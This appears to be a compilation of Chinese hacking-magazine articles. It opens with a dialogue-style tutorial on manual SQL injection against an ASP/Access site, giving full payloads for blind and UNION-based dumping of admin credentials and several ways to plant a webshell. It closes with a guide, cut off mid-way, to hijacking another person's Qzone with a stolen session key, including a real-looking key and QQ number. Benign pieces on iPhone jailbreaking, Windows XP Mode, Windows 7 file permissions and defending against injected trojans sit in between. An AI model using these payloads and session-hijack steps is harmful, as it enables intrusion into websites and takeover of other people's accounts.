“在正常情况下，我们输入的 id 为数字类型，此时程序能正常运行。但当我们把变量 id 的内容输入为字符型时，就肯定会出错了，例如访问 `http://localhost:2874/product/product.asp?id=nohack`，出现错误，如图 5。”

“至于 `and 1=1` 也被加入到数据库中执行，其实也很容易理解。语句 `select * from product where id=69 and 1=1` 中的 69 和 `1=1` 就是 id 变量的值，这里你回想一下上节课的内容就不难理解了。”

“嗯！这里弄明白了，多谢猴师兄。”

“师弟，虎师姐这里补充一点。初步检测注入点的方法，有时候用单引号是不好使的，因为现在很多程序都过滤了单引号。这里还有另外一种方法，就是在 id 变量后面输入 `-1`。我们尝试一下访问 `http://localhost:2874/product/product.asp?id=69-1`，结果如图 6。”

“太极虎师姐，怎么跟刚才的页面不同啊？真奇怪！”

“我们还是把 `69-1` 放到 SQL 语句看看吧。代入之后的语句为 `select * from product where id=69-1`，很明显，查询的 id 不是 69，而是 68 了，所以就出现了不同的页面。”

“哦！这样啊，师姐，下次检测注入点又多了一个方法，谢谢！”

“师弟，要做好笔记哦，师兄师姐给你讲解得那么详细。”蜜獾师兄继续给阿宝讲解：“现在知道怎么判断注入点了，接下来就要猜解表获取管理页密码。access 数据库的程序只能这样攻击。”

“先在注入点后面加上 `and exists (select * from admin)`，就能判断出此数据库是否存在 admin 表。要是存在，页面返回正常，反之出错，如图 7。”

“螳螂师兄，为什么用 `exists (select * from admin)` 能判断出是否存在 admin 表呢？这个是 SQL 语言中的语句吗？”

“是的，在 SQL 语言中，`exists` 是指定一个子查询，检测行的存在。语法为：**EXISTS subquery**。`exists` 是一个受限的 SELECT 语句（不允许有 COMPUTE 子句和 INTO 关键字），返回的结果类型为 Boolean（布尔型），也就是说，如果子查询包含行，则返回 TRUE，反之则返回 FALSE。所以 `exists(select * from admin)` 的意思就是用 `exists` 判断 `select * from admin` 的结果是否为真。而 `select * from admin` 的意思就是查询 admin 表里面的全部数据，星号代表全部。这样，如果存在 admin 表的话，`exists(select * from admin)` 返回的结果就为 TRUE 了，前面的 URL 结果是真时，然后用 `and` 连接后面的结果也为真，所以最后的结果为真，页面肯定返回正常。”


“哦，原来如此！”阿宝点了点头。这个时候蛇师姐望着阿宝，貌似有什么话要跟阿宝说似的。

“其实猜解方法不止一种，我们还能用 **and 0<>(select count(*) from admin)** 语句猜解。这里的 count 是统计的函数，count 是统计表中所有字段。如果 admin 里面不存在字段的话，就返回 0，那么 `0<>0`（0 不等于 0）为假，所以导致返回结果会出错。要是 admin 里面存在字段，则 `select count(*) from admin` 返回的结果必定大于或等于 1，所以 `0<>1` 成立，结果为真。”蛇师姐说。

“看来上节课的内容很有用哦！接下来是要猜解字段了吧？”阿宝问。


“嗯！这里我们首先判断出存在 admin 这个表，接下来需要猜解 admin 表里面的字段。还是用 `exists` 语句判断，在注入点后面加上 **and exists (select id from admin)**，页面返回正常，这就说明 admin 表里面存在 id 这个字段。要是不存在此字段，则会返回如图 8 的错误页面。接着提交 **and exists (select username from admin)** 和 **and exists (select password from admin)** 均返回正常，也就是存在 username 跟 password 字段。”

## 猜测用户名和密码的长度

“首先猜他的管理员 id 值，语句为 **and exists (select id from admin where id=1)**，这里就是判断是否存在 id 为 1 的账号。执行后返回错误页面，如图 9，这里不存在 id=1 的账号。再尝试提交 **and exists (select id from admin where id=2)**，结果返回正常。OK，接着猜 ID 为 2 的用户名长度，提交 **and exists (select id from admin where len(username)<6 and id=2)**，页面返回正常，说明 username 字段长度小于 6 位。”

“啊，师兄，括号里面的内容我不是很明白，请解释一下哦！”

“`select id from admin where len(username)<6 and id=2` 这句是吧？我们把它分成两部分来看，`select id from admin` 这句的意思就是查询 admin 表中字段为 id 的内容。而它后面的 `where len(username)<6 and id=2` 就是作为前面查询的条件了，这个条件分两个，第一个就是 id 要等于 2，另外一个就是 username 的长度要小于 6。这里的 `len(username)` 就是 username 的长度，明白了吗？”


“明白咯！”阿宝有点激动。

“阿宝，那么激动干嘛！还没完呢。刚才判断 username 小于 6 位，我们还需要继续判断准确的长度。提交 **and exists (select id from admin where len(username)<5 and id=2)**，结果返回错误，如图 10。再尝试提交 **and exists (select id from admin where len(username)=5 and id=2)**，返回正常，也就是说 username 字段长度为 5 位。”

“师兄，那么判断 password 字段长度就是用语句 **and exists (select id from admin where len(password)<6 and id=2)** 吗？”

“嗯，对的！到此我们知道 username 的长度为 5，password 长度也是 5，下面要做的是猜出它们的每一位分别是什么。”

## 猜解数据

“猜解数据由鹤师兄给你讲解吧，我先休息一下咯！”螳螂师兄说完就到一旁休息去了。

“好的，师兄们辛苦了。”

“猜解数据的语句是这样的：**and (select top 1 asc(mid(username,1,1)) from admin)>50**。其中，`asc` 函数的功能是将字符转换成 ASCII 码，`mid` 函数的功能是截取 username 字段值的字串，从第 1 位开始，截取的长度是 1。我们这里做的意思是，猜测他的用户名的第一个字的 ASCII 码值是否大于 50。”鹤师兄认真地给阿宝解释道。

> ASCII 码——美国信息交换标准代码
>
> 在计算机中，所有的数据在存储和运算时都要使用二进制数表示（因为计算机用高电平和低电平分别表示 1 和 0），例如像 a、b、c、d 这样约 52 个字母（包括大写）以及 0、1、2 等数字，还有一些常用的符号（例如 *、#、（、@ 等）。为了让不同的计算机数字表示不同的符号，相关标准化组织就定出了所谓的 ASCII 编码，统一规定了上述常用符号用哪些二进制数来表示。

“师兄，提交 `http://localhost:1032/product/product.asp?id=69%20and%20(select%20top%201%20asc(mid(username,1,1))%20from%20admin)>50` 后，页面返回正常呢。”

“那你把 50 换成 100 看看。”

“啊，这会出错了，如图 11。那就是说，username 的第一位 ASCII 码位于 50—100 之间了。当 **and (select top 1 asc(mid(username,1,1)) from admin)>97** 时也出错啊，我再提交 **and (select top 1 asc(mid(username,1,1)) from admin)=97**，嘿嘿，返回正常，这就是说 username 的第一位 ASCII 码是 97。”阿宝一边操作电脑一边分析着。

“既然得到 username 的第一位 ASCII 码是 97，那么用工具把它的对应值查出来。这里我们用小菜转换工具查出对应的值，只要在‘asc’处填入‘97’，再点‘单个还原’就……”

# 策划


图11

出现了字母“a”，如图12，那么 username 的第一位字符就为 a。

猜解第二位的语句为 `and (select top 1 asc(mid(username,2,1)) from admin)>50`，得到第二位的 ASCII 码是 100，对应值也就是字母 d。以此类推，得到用户名为 admin。那么，根据这样的理论，猜解密码你应该已经会了吧？”

> “哈哈！会了会了，看我的，猜解 password 内容的语句其实就是跟刚才那个一样的，也就是 `and (select top 1 asc(mid(password,1,1)) from admin)>97` 这样依次类推吧。”

阿宝边说边熟练地操作着电脑。

大概几分钟的时间，阿宝兴奋地叫道：“账号跟密码都查出来了，都是 admin。”

“好！不错！宝，继续努力。”太极虎师姐表扬阿宝，同时露出了灿烂的笑容。


“既然得到了账号跟密码，我们接下来就需要寻找后台地址了。一般的后台都放在 admin、manage 目录下，我们先尝试访问 `http://localhost:1032/product/admin/`，后台出现了，如图13、图14。用得到的账号密码顺利登录后台。

这里是我们自己搭建的环境，假设已经知道数据库地址为 `http://localhost:1032/product/database/freedown.asp`，我们可以在后台发表文章，把一句话木马插入到数据库中，如图15。

保存之后我们用一句话客户端连接数据库，连接成功，如图16，这样就能从后台获取 webshell 了。这里要注意 2 点，第一：数据库后缀要是 asp 才行；第二：如果数据库中加入了防下载表，就不能获取 webshell 了。”

> “这只是理想化的啊？师兄，在实际操作中我们很难找到数据库的路径啊。”

> “嗯！不过你可以通过查找网站程序的相关信息，然后把该程序下载回来看数据库的位置，很多网站都用默认数据库设置的。要是别人修改了数据库名也不用担心，我们可以在后台备份出 webshell。”

首先进入后台，展开“数据库操作”一栏，如图17，有数据库备份功能，这样我们在论坛上传一个图片格式的木马，然后把这个图片备份成 asp 格式就行了，如图18。备份成功后，我们访问刚才备份出来的 asp 文件，成功获取 webshell，如图19。”

> “蟋蟀师兄，原来那么简单啊？管理员就不会限制什么吗？有特殊情况吗？”

> “那肯定有啦，现在很多程序员在编写程序时都很关注安全这方面了。有一种情况是这样的，在备份功能那里不能备份成 asp 后缀，这时可以试着备份成 PHP 文件，但是前提是这个空间要支持 PHP 文件的解析才行。还有一个情况就是后台没有数据备份功能，但有会员注册功能，并且每新注册一个会员都会建立一个相应的文件夹，这时我们就注册一个 123.asp 的用户，于是就建立了一个名为 123.asp 的文件夹。当你上传图片的时候，就可以上传到此文件夹中，这样就能利用 IIS 的解析漏洞获取 webshell 了。

> “噢！貌似我上次看见一个叫什么 eWebEditor 的编辑器也能获取 webshell 的啊，师兄！”

“对啊，有时候在后台不能获取 webshell 的时候，我们可以找找这套程序有没有用其他编辑器。就如你刚才说的那个 eWebEditor 编辑器，还有就是 FCKeditor 编辑器，这些编辑器都出了不少漏洞，都能利用来获取 webshell。这里给你演示一下 eWebEditor 获取 webshell 的过程吧，如图20，就是 eWebEditor 的……”

这里我们用默认密码成功登录了，如图21，进入“样式管理”，如图22，随便拷贝一个样式后便出现新的样式 standard1，如图23。

然后点设置，进入后在图片类型一栏添加 asa，如图24，然后提交保存。


图12


图13


图14


图15


图16


再返回“样式管理”，点 standard1 样式的预览，如图25，选择上传图片，如图26。上传之后点代码，就会出现 webshell 的地址了，如图27。

```
/images/UploadFile/20091116164526816.asa
```

刚才上传的 webshell 路径为 `/images/UploadFile/20091116164526816.asa`，访问一下看看，发现无法访问！

一般情况下，直接访问这个路径就能连接我们的 webshell，但是有些程序员会把上传的路径进行修改，有时候文件会被上传到 `/Example/NewsSystem/NewsFile/` 目录下。我们这次找到正确的地址进行访问，成功获取 webshell，如图28。

> “好强大啊！师兄！今天又学习了不少东西。”

“好好去温习一下吧！今天的课程就到此为止了，不过还有很多东西需要注意，自己在以后的实践中把遇到的问题都做好笔记，这样对你的学习会有很多帮助的。另外，要多收集一些数据库的表跟字段，上面我们都是采用手工形式猜解数据，这样是很累的，要合理借助工具，比如‘啊D注入工具’针对 Access 数据库的攻击就是挺不错的，上次也看见你在用了。并且它还有后台扫描功能，你就能用它查找后台了。”

> “好的，明白了！师兄！我多收集一些表名跟字段名，弄一个很强大的资料库，哈哈，以后弄站多方便哦！”

> “师弟，还没完呢，我还有一个更加好玩的语句给你哦。”太极虎师姐说。

> “哇？啥语句？！”

```
http://localhost:1032/product/product.asp?id=69 order by 8
```

访问后显示正常，然后执行

```
http://localhost:1032/product/product.asp?id=69 order by 9
```

就返回错误了，如图29，那就是说只有 8 个字段。

接着再提交

```
http://localhost:1032/product/product.asp?id=69 union select 1,2,3,4,5,6,7,8 from admin
```

如图30，显示出我们提交的数字 3、4、5、6、7、8，我们只要在这些能显示数字的地方插入字段就能爆出相应的数据了。

比如提交

```
http://localhost:1032/product/product.asp?id=69 union select 1,2,3,4,5,6,username,password from admin
```

访问后的结果如图31，密码和账号都出来了，是不是很强悍呢？比上面的方法方便多了。”

> “哇！牛！！！太牛了，师姐！第一次感受 Union 语句的强大之处，配合 select 使用真厉害啊。”

> “师弟你就好好研究吧，时间也不早了，回去休息一下吧。”太极虎师姐说。

> “好的，我回去仔细琢磨一下今天的内容，BYE！师姐师兄们！”

黄昏渐近，山雨欲来，下次阿宾又会研究什么新的技术呢？这里卖个关子，先不告诉你们，嘿嘿！


> Q版普通话：天冷啊，雪大啊，雨多啊，风吹啊……感觉回到了冰河世纪，出门得穿棉袄了。家里很暖和，躺在沙发上，抱着本本无线上网。冬天讨论得最多的就是“下雪了，哥们第二天出不了门了。据说湖北的蔬菜价格上涨，农民伯伯有车都可以卖电脑过年了……”

图/风逝水

# 通过本文学习如何破解 iPhone/iPod

不知道各位有没有听说过这样一句话：虽然不是每个人都喜欢 Windows，但是几乎所有人都在用到 Windows；虽然几乎每个人都喜欢 iPhone，但是不是每个人都能用到 iPhone。

苹果公司做的是金字招牌，让人都会误认为只要是有那个缺了一口的苹果标志，这个东西就是好产品。但是众所周知，苹果公司出的电子产品都会有点美中不足，那就是限制太多。原生的 iPhone、iPod 是不允许用户对其系统进行操作的，只能对歌曲、视频进行存储，就好像把用户关在监狱里，不能到外面活动。于是，相对于破解这个限制的技术，就被称之为“越狱”。

在网上流传着两种破解 iPhone 系统限制的方式，一种是用程序破解系统限制；另一种就是自制固件。不论是哪种方法，目的都是一个：打开系统 Root 最高权限，以取得对系统目录的访问和修改，同时支持运行破解软件。

好了，这个原理也说得差不多了，大家抄家伙，跟我一起上。首先我们需要下载“撬开监狱栏杆的工具”，由天才少年 GeoHot 开发的 iPhone/iPod 系列越狱软件——blackra1n。然后我们需要准备一个无线路由器或者找一个可以无线上网的环境，最后就是去 Apple 公司的中文网站上下载 iPhone 系列传输文件的工具 iTunes（下载地址：http://www.apple.com/itunes/download/）。


准备完成后就开始工作！用数据线将 iPhone 连接到电脑，运行 blackra1n，如图1，点击“make it ra1n”按钮。


这里需要注意的是，在这个之前需要安装刚才下载的 iTunes，如果不安装，系统会提示“0x00000000 错误，不能正常运行这个程序”。


当你点击了这个按钮后，iPhone 的屏幕上会显示出 GeoHot 的照片，如图2，而电脑上出现一个对话框，如图3。


点击“确定”，这个时候 blackra1n 上的按钮文字变成了“done, wait for reboot”，而 iPhone 也正在重启，如图4。


等 iPhone 重启完成后，你会在 iPhone 上看到如图5这样的图标。打开程序，选择“Cydia”，点右上角的“Install”按钮，如图6，iPhone 会使用 WiFi 连接互联网，下载 Cydia 并且安装，最后显示的图标如图7。


打开 Cydia，点击下方的“管理”，如图8（我安装了 Cydia 的中文包，所以显示的是中文，如果是英文，则显示为“Manage”），显示界面如图9。


点“软件源”（英文为“Sources”）进入如图10的界面，接着点编辑“Edit”，再点添加“Add”，在弹出的地址栏里面输入 `http://app.weiphone.com/cydia`（有人说输入 `http://cydia.hackulo.us`，但是个人建议去 Weiphone 下载需要的 IPA 破解，因为那是国内的一个网站，都是中文显示，里面也可以下载到 Cydia 的中文包），最后添加源“Add Source”，如图11。


等待一段时间后点击右上角的完成“Done”，打开“Weiphone—威锋网”，找到“IPA补丁 for 3.0”，如图12。然后点“install”“confirm”，当这些工作结束了，就是 iPhone 破解成功的时候。


下面介绍的是自刷固件的方法，需要用到 redsn0w 软件，如图13，然后下载一个 iPhone 的固件。大家可以去 gougou 的页面搜索，如图14，有一大堆。

当然，这之前得先了解自己的 iPhone 是哪个版本，可以依次选择手机上的“设置”－“通用”－“关于本机”来获得信息，如图15。

找到合适的固件后，在 redsn0w 软件中点击“Browse”，选择刚才下载的固件，验证成功后一路点“next”，如图16，然后勾选“install cydia”“install icy”，再点 next，如图17。

最后出现如图18这样的英文信息界面，这段话的大致意思是：

- 1. 和你的电脑断开连接；
- 2. 长按关机键，滑动按钮关机；
- 3. 等待 5 秒确定关机；
- 4. 按住 Home 键，连接 USB，保持按 Home 键，直到出现连接 iTunes 画面（苹果的图标消失）。

当按照上面的指示操作完成后，灰色的 next 按钮就可以点击了，然后静静地等待，当 iPhone 再次启动的时候，就是破解成功的时候。

破解完成后，建议下载一个 91 手机助手，如图19。以后当你用破解的 iPhone 连接电脑后，这个程序可以帮你完成手机的文件传输、程序管理等工作。最重要的是，它还可以帮你找到最新最好的 iPhone 软件和游戏，让你完全享受 iPhone/iPod 带来的乐趣盛宴。

## 编辑点评：

iPhone 3G 已经引进中国，相信许多朋友都已经触摸过，但是其软件限制确实是让人觉得机器的可玩性减小了不少。看过本文后，大家兴趣又提高了吧？快快准备资金，搞一台回家“爱疯”吧！


# 另类虚拟机

Windows XP Mode

□ 涛 并 洪 朱 著

通过本文了解 XPM

在 Windows 7 的旗舰版或专业版中，微软推出了一个很特别的增强模块，即 Windows XP Mode（以下简称 XPM）。微软声称这是一个为了增强 Windows 7 兼容性而特别开发出来的全新功能，它能让 Windows XP 下的老程序通过虚拟技术直接运行在 Windows 7 的桌面上。那么这个 XPM 到底是如何进行工作的？它在运用中的实际性能又怎样呢？我们今天就一起来了解下。

## 一、XPM 的介绍

说到“虚拟技术”，首先让人联想到的就是各种各样的虚拟软件，比如微软公司的 Virtual PC。通过微软官方信息了解到，所谓的 XPM 实际上是由 Microsoft Virtual PC 虚拟环境和完整的 Windows XP SP3 两部分组成。简而言之，就是在 Windows 7 系统中，利用 Virtual PC 软件整合了一个安装好的 Windows XP SP3 系统，只不过现在由微软重新更改了一个名称——Windows Virtual PC。

全新的 XPM 和一般的虚拟软件有所不同，因为微软强制限定了其使用的硬件门槛，就是系统的内存必须大于或等于 2G 才可以。另外，必须要使用支持虚拟化技术的 CPU，即支持 Intel-VT 技术或者 AMD-V 技术的 CPU 才能够使用该功能。

那么如何确认 CPU 是否支持虚拟化技术呢？用户可以通过绿色小软件 SecurAble 来对自己的 CPU 进行相应的验证。直接运行下载的 SecurAble 程序，这时可以在主界面上看到三个选项，如图1。

其中第一个选项用于显示 CPU 是 64 位还是 32 位；第二个选项用于显示 CPU 是否支持 DEP（数据执行保护）；第三个选项用于显示 CPU 是否支持硬件虚拟技术。只有第二个和第三个选项都显示为“YES”或“Locked ON”字符串，则可在 Windows 7 中启用 XPM。


## 二、XPM 的安装

在确认了自己的 PC 具备开启 XPM 功能后，就可以在微软的官方网站下载相关的程序。用户首先需要下载 Microsoft Virtual PC 的程序文件，它是以补丁程序的形式发布的，大家在下载的时候需要区分 32 位和 64 位。然后再下载 Windows XP Mode 文件，也就是 XP 系统的虚拟文件，这个不区分 32 位或者 64 位。

Windows Virtual PC 安装程序的大小仅为 5.91MB，而 Windows XP Mode 下载包则为 548MB。现在运行安装 Virtual Windows XP 的补丁程序，安装完成以后需要重新启动系统进行更新，接着再进行 Windows XP Mode 文件的安装。

安装完成以后点击左下角的开始按钮，在弹出的菜单中点击“Windows Virtual PC”中的“Windows XP Mode”。这时 XPM 会自动创建一个 XPMUser 的账号，我们需要根据自己的情况设置一个合适的密码。为了避免登录的麻烦，可以选中“记住凭证”选项，如图2。


## 三、XPM 的运用

XPM 打开运行的过程比较长，这是因为默认只分配给它 256M 的内存，在这个过程中微软会演示 XPM 的用法。当 XPM 成功运行以后，我们就可以按照正常的 XP 系统来进行操作了。

进入桌面的“我的电脑”，可以发现共享目录中都是本地硬盘的盘符，这样就可以轻松访问本地硬盘中的文件。比如我们安装一个老版本的 WPS2000，安装完成以后就可以在 Windows 7 的“Windows XP Mode 应用程序”菜单中发现 WPS2000 的操作菜单命令。以后通过点击这些程序菜单，就可以在 Windows 7 的系统里面运行 WPS2000 了，从而避免了以前只可以在虚拟机窗口里执行操作的限制。

如果是一些绿色软件的话，首先将软件的程序目录复制到 XPM 系统中的 C 盘目录，然后在 XPM 的桌面创建一个软件的快捷方式，接着在“开始”菜单中的图标上点击鼠标右键，


选择弹出菜单中的“打开所有用户”命令。然后把刚刚创建的快捷方式图标复制到打开的系统目录里面就可以了，如图3。

现在切换到 Windows 7 的“开始”菜单，在“Windows XP Mode 应用程序”菜单下，就可以看到刚刚创建的软件快捷启动命令，如图4。这样可以解决“冰刃”等工具无法在 Windows 7 正常运行的情况。

利用这种方法，用户甚至可以把 XPM 的 IE 浏览器快捷方式添加到“Windows XP Mode 应用程序”菜单中，这样你就可以看到 IE6 和 IE8 同台亮相的情况，如图5，即解决了网上银行对新版本 IE 浏览器支持不足的问题。

另外，如果用户使用的是 U 盾的话，那么点击 XPM 窗口中的“USB”命令，就可以识别出连接到电脑主机的 U 盾信息。这可是以前各种各样的虚拟机软件所不支持的，这回网上购物可就方便安心多了。

**编辑点评：** Windows 7 发布以来，许多新功能还没有被传播开来，也许大家对于这个 XPM 也是不太熟悉。看过本文，相信对于 Windows 7 向下兼容的问题也许有了一些了解，看来 XP 上运行正常的软件在 Windows 7 中利用 XPM 可以再“发春”了，呵呵。

# 通过本文了解 Windows 7 的特殊权限

Windows 7 已经正式推出一段时间了，而微软公司则一直宣称其安全性非常高。其实通过笔者的观察分析，Windows 7 的安全性之所以非常高，主要是因为系统采用了特殊的用户权限。那么到底是怎样一种用户权限呢？今天笔者就在这里给大家说道说道。

## 一、全新的 UAC 设置操作

从上一个版本的 Vista 系统开始，微软就采用了一种名为 UAC（即用户账户控制）的功能，可以防止对计算机进行未经授权的更改。UAC 的做法是要求用户在执行可能会影响计算机运行的操作，或执行更改影响其他用户的设置操作前，提供足够的操作权限或管理员密码。

通常我们在安装 Windows 系统的时候，会创建一个隶属于系统的 Administrators 管理员组新用户，以前只要是隶属于 Administrators 管理员组账户，就可以对该计算机系统进行任意的操控。但是到了最新的 Windows Vista 和 Windows 7 系统以后，这个组的账户只有标准用户的权限。

简单地说，就是用户执行正常的操作和原来一样，但是安装软件、新建账户、访问系统文件夹的时候，UAC 就会弹出一个提示对话框询问是否允许执行。

在 Windows Vista 时代，系统提供了 UAC 的关闭功能。但是到了 Windows 7 时代，系统为其提供了多种不同的选择。首先单击系统的“开始”按钮，在“搜索程序和文件”输入框中输入 Msconfig 命令，在弹出的系统配置窗口选择“工具”标签，这时在列表中找到“更改 UAC 设置”，如图1。

点击窗口下方的“启动”按钮，在弹出的用户账户控制设置窗口中就可以调整适合自己的 UAC 选项。将 UAC 的滑杆拖拽到窗口的最下方就相当于关闭该功能，这个看上去和调整 IE 浏览器的安全级别差不多，如图2。

## 二、提升权限来修改文件

那么是不是把系统的 UAC 功能进行关闭，所有的操作就会和以前一样呢？如果你简单地这么认为就大错特错了！

我们首先来做一个小小的测试操作，第一步进入到系统的关键目录文件夹，任意找到一个可执行文件进行删除。这时你就会看到系统弹出一个错误提示框，如图3，显示“您需要 TrustedInstaller 提供的权限才能对此文件进行更改”。

当我们打开这个文件的属性窗口后，在“安全”标签页中就可以发现 Administrators 组用户，一样只拥有“只读”和“执行”的普通权限，如图4。而让人感到非常奇怪的是，只有 TrustedInstaller 用户才有完全控制权限。

其实这就是 Windows Vista 和 Windows 7 的安全机制之一。TrustedInstaller 用户是一个隐藏的系统用户，当用户执行 Windows Update 操作时，系统才会调用这个账户的权限升级系统文件。默认情况下，系统文件是不可以被改写的，这样就可以防止系统文件被恶意病毒所破坏。如果用户需要进行某个文件的修改操作，可以通过修改文件的所有者权限来达到目的。

现在在文件属性的“安全”标签中点击其中的“高级”按钮，并在弹出窗口选择“所有者”标签。接下来点击窗口中的“编辑”标签，在用户列表中选中需要赋予权限的用户名，如图5，然后点击“确定”按钮返回文件属性的“安全”标签中。

然后在“其他用户或组”列表中选择刚刚提取的用户名，点击“编辑”按钮，在弹出的窗口选择“完全控制”权限即可，如图6。

通过上面的一系列操作就可以执行包括文件删除在内的所有操作了。不过笔者还是建议大家在文件操作完成以后将文件的访问权限恢复到默认值。下面我们就来操作一下。

这里需要按照前面的方法，进入到高级安全设置中的“所有者”标签项中，然后点击窗口中的“编辑”标签页，在弹出的窗口再点击“其他用户或组”按钮，然后在弹出的“选择用户或组”窗口手动输入用户名：`nt service\TrustedInstaller`。修改完成所有者的权限之后，再将除 `TrustedInstaller` 之外的用户完全控制权限去除即可。

由此我们也可以看出，Windows 系统仍然允许修改系统文件的控制权限。既然用户手工可以做到，那么病毒木马也一定可以做到，所以安装防护软件仍然是不可缺少的。

**编辑点评：** Windows 7 发布以来，大家已经开始对它不断关注了。至于系统的权限设置，本文也透露了一些基本方法，在安全性方面确实有所加强。但是，杀软和防火墙还是必须的。

# 防止网站挂马的实用技术之二

图 悔·小礼·菜客

从本文继续学习如何防止网站被挂马

## 一、优势及适用范围

先前的两篇文章都是通过修改服务端的脚本代码，从而防止了病毒代码向浏览器的输出。而本文将要讲的是客户端防挂马，意思是允许服务端输出病毒代码，但是要设法让浏览器不去执行它。相对于前两篇文章，本文内容至少有以下优势：

- 忽略各种服务端语言的差别，因为它们在客户端（浏览器）统一于 HTML，因此本方法理论上适用于各种服务端编程语言。
- 不会占用服务器的资源，也不会占用太多浏览器资源。
- 用户 100% 不会受到病毒影响。以前的方法是按照概率检测是否挂马，有一小部分用户可能会受到攻击。

我帮朋友管理过几个小站，自己也有个小博，这些网站经常被挂马，虽然它们不在同一个服务器上。久而久之我却发现，挂马手段出奇地相同，都是在每个网页文件的末尾追加上一段病毒代码。

我对这种挂马方式百思不得其解，因为这样很容易导致页面变形，隐蔽性大打折扣。后来我的电脑中了一次病毒，电脑上的所有 ASP、PHP、HTML 文件末尾都被追加了病毒代码（后来发现 WebShell 的批量挂马功能也能达到这种效果），我才恍然大悟，原来这是程序自动化挂马的结果。而本文的方法仅仅适用于上述情况，如果运气好，实际上大多数情况都可以。

## 二、单个网页文件防挂马

既然挂马伎俩有章可循，那就为客户端防挂马提供了可能。先介绍一段 js 代码：`document.execCommand("stop")`，意思是终止脚本的执行，也就是在这段代码之后的所有代码都不会被执行。我们在网页文件的末尾输出这段代码，当病毒代码在其后追加时，便不能被执行了。

文件末尾追加 `Response.End` 也没用。

但若是在文件末尾加入代码：`<script type="text/javascript">document.execCommand('stop');</script>`，你就看不到广告了，虽然它还存在，如图2。

## 三、网站防挂马

网站文件要比单个网页文件复杂一些，因为它们都是一层层包含的，例如 Index.asp 在头部包含了 Config.asp，Config.asp 头部又包含了 Conn.asp，这样在浏览 Index.asp 的时候会依次执行 Conn.asp、Config.asp、Index.asp，如图3。

当这三个文件末尾追加了病毒代码时，就会输出 3 处病毒代码，有一处在末尾，是 Index.asp 直接输出的，我们可以在 Index.asp 的末尾加上 `document.execCommand("stop")` 来屏蔽掉。但是前两处怎么办呢？

我的设想是通过 HTML 的注释代码把病毒代码给注释掉。HTML 代码的注释前后分别用“<!--”和“-->”闭合，例如：`<!--注释内容-->`。如果我们在上一层文件的末尾输出“<!--”，中间可能会有病毒代码，然后再在下一层文件头部输出“-->”，这样一来病毒代码就会被注释掉。

例如在 Config.asp 末尾输出“<!--”，在 Index.asp 开头输出“-->”，如果病毒代码在 Config.asp 末尾追加的话，就会被注释掉。当然，Config.asp 和 Conn.asp 也是这种关系，所以处于中间的 Config.asp 的开头和结尾要分别输出“-->”和“<!--”。来看测试，如图4和图5，网页都被挂了马，其中图5的防挂马措施也使用了“屡试不爽”的效果。

然而实际情况可能更复杂一些，因为一个文件中可能包含多个文件，例如 Index.asp 中有可能同时包含了 Config.asp 和 Conn.asp，代码如下：

```asp
<!--#include file="config.asp"-->
<%Response.Write("-->")%>
<!--#include file="conn.asp"-->
<%Response.Write("-->")%>
<%Response.Write("这是Index.asp的内容")%>
<script type="text/javascript">document.execCommand('stop');</script>
```

各位网管可以分析常用页面的包含关系，手工插入上述代码。

## 四、结语

我本想像上次一样写一个程序自动来完成插入防挂马代码的功能，但是由于学业，时间和精力都非常有限，对此我非常抱歉，这个工作就交给热心的读者来完成吧。最后我想有必要说一下这种技术可能存在的不足，每种技术都有缺点，这不是丢人的事，丢人的是刻意隐瞒。

我没有对此做过专门测试，但这种疑虑是存在的：毕竟服务端输出了病毒代码，尽管无害，但是杀毒软件和 Google 能不能正确分析病毒代码的执行与否？会不会因此把该站点列入黑名单而阻止用户访问？我们只能寄希望于它们的算法是智能的。我想目前最好的办法是结合服务端防挂马技术使用，让它们取长补短，各尽其能。

> 编辑点评：本文的方法除了可以防止网站被挂马，其实也可以用来屏蔽免费空间插入页面的广告代码，呵呵！

# SID 漏洞

TX，你到底好吗！

学习下 SID 漏洞的简单利用——

首先介绍一下 SID，即安全标识符（Security Identifiers），是标识用户、组和计算机账户的唯一号码。在第一次创建该账户时，将给网络上的每一个账户分配一个唯一的 SID。

Windows 2000 中的内部进程将引用账户的 SID，而不是账户的用户或组名。如果创建账户，再删除账户，然后使用相同的用户名创建另一个账户，则新账户将不具有授权给前一个账户的权力或权限，原因是该账户具有不同的 SID 号。安全标识符也被称为安全 ID。

似乎是去年这个时候爆出的这个代码漏洞，现在过去一年了，我继续挖掘，结果令我大吃一惊！原来这个漏洞只做了小修小补，TX 只是对几个图标地址做了下保护，依然存在提权的可能。

我在仔细搜查了 TX 庞大的图标地址后，还是找到了存在安全因素的图标——QQ 华夏。利用方法很简单，要考验大家的社工本领，也就是拿到好友的 QQ 华夏的 URL。这次我拿朋友的 QQ 给大家演示一下，如图1，需要注意的是对方的 Q 要是 2009 版才可以。

接下来我们看看得到的 URL：

```text
http://qqhx.qq.com/mainad/index.html?fromID=qqimcard0903&clientuin=306182371&clientkey=83D8863E17AEA37A9E025D35294A09B5013E2BCC9F56292DD6B5F22A68ADF2D1&ADUIN=306182371&ADSESSION=1257561556&ADTAG=CLIENT.QQ.2515_MyTip.0
```

从这段地址中我们可以提取到自己有用的信息，这里以获得其空间权限为例进行演示，注意下面这段 URL：

```text
http://imgcache.qq.com/qzone/jump.html#zzpanelkey=权限代码&zzpaneluin=对方的QQ号码&url=http%3A%2F%2Fuser.qzone.qq.com%2F对方的QQ号码
```

我们从第一个 URL 中获得第二个 URL 中所有汉字信息：权限代码、QQ 账号。其中：`83D8863E17AEA37A9E025D35294A09B5013E2BCC9F56292DD6B5F22A68ADF2D1` 就是权限代码，QQ 号更是可以方便获得，然后将它们进行替换，获得的新地址如下：

```text
http://imgcache.qq.com/qzone/jump.html#zzpanelkey=83D8863E17AEA37A9E025D35294A09B5013E2BCC9F56292DD6B5F22A68ADF2D1&zzpaneluin=306182371&url=http%3A%2F%2Fuser.qzone.qq.com%2F306182371
```

最后将上面的地址粘贴到地址栏，点击“转到”就 OK 了。需要提醒的是，最好不要按回车，比较容易直接进入百度搜索结果，还有就是这个地址存在时效性。

在“转到”过程中大家可以看到，我们组装的代码会迅速转变成一个普通的网址，这就是 TX 对空间进行的保护，也就是避免大家从中得到类似于华夏中的 URL。不过我们绕开了这一步，如图2。

进入空间后大家就可以自己操作了，爱怎样就怎样！不过大家注意分寸，别过火哦，我只是给朋友写了篇日志，如图3、图4。

通过此方法同样可以获得加密空间的管理权限，这样加密空间的破解也就有了方法。相比去年同样的漏洞，权限少了很多。另外再发布一个 QQ 秀的管理代码：

```text
